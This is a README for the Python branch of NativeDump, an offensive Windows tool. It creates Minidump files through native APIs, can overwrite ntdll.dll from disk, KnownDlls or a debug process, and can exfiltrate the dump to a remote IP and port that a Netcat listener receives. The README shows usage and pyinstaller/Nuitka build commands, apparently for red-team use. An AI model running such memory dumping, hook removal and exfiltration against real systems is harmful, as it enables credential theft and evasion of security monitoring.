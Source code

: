# NativeDump - "python-flavour" branch

This branch implements the same functionality as the main branch using Python3: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
python nativedump.py [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![pythonexample](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python1.png)


As an alternative, you can compile it to a single binary using pyinstaller with the "-F" flag:

 ```
pyinstaller -F nativedump.py
```

Or using Nuitka with the "--onefile" flag:

```
nuitka --onefile nativedump.py
```

![pythonexample](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python2.png)


You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python4.png)
